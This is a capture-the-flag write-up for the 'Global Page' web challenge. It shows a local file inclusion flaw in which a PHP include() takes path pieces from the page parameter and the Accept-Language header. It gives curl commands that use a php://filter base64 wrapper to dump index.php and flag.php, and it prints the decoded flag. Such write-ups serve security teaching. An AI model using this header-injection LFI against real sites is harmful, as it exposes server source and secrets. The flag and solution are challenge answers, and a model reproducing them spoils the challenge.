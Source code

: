 # Global Page WriteUp(LFI)

The "quest" begin with a link wihtout any hint or sentence: [link to Global Page.](http://globalpage.chal.ctf.westerns.tokyo/)

![Landing page](images/Globalpageindex.png)
The Landing Page show one deleted and two followable links.

Trying to follow ctf or tokyo: the browser makes a GET request to a php as parameter(page), the followed link(ctf or tokyo) -> `http://globalpage.chal.ctf.westerns.tokyo/?page=ctf` or `http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo`.


![Page](images/page.png)

Mh! Warning: include(); suggest with high probability a **LFI** attack.
Before continue one consideration: the include function try to open a file with the page parameter as directory and the language specified in the Accept-Language Header Request as file.

Every LFI to the page parameter results in a correctly input sanity check(escape . and /).
(e.g. page=index.php -> indexphp/en.php, page=../../../etc/passwd -> etcpasswd/en.php)

If you add language code in the Accept-Language, the server include the properly file language php, if exist.

What can we do? Attach a LFI in the Accept-Language and build the properly LFI.

`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=index"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=index.php` that encode the index.php in base64.

Decode the base64 index.php and obtain:
```
<?php
if (!defined('INCLUDED_INDEX')) {
define('INCLUDED_INDEX', true);
ini_set('display_errors', 1);
include "flag.php"; <-- FLAG
?>
<!doctype html>
<html>
<head>
<meta charset=utf-8>
<title>Global Page</title>
<style>
.rtl {
  direction: rtl;
}
</style>
</head>

<body>
<?php
$dir = "";
if(isset($_GET['page'])) {
	$dir = str_replace(['.', '/'], '', $_GET['page']);
}

if(empty($dir)) {
?>
<ul>
	<li><a href="/?page=tokyo">Tokyo</a></li>
	<li><del>Westerns</del></li>
	<li><a href="/?page=ctf">CTF</a></li>
</ul>
<?php
}
else {
	foreach(explode(",", $_SERVER['HTTP_ACCEPT_LANGUAGE']) as $lang) {
		$l = trim(explode(";", $lang)[0]);
?>
<p<?=($l==='he')?" class=rtl":""?>>
<?php
		include "$dir/$l.php";
?>
</p>
<?php
	}
}
?>
</body>
</html>
<?php
}
?>
```

_include "flag.php"_, so one more time LFI:
`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=flag.php`.

Decode base64 et voitlà:

```
pirate$ echo "PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg" | base64 -D -
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
```








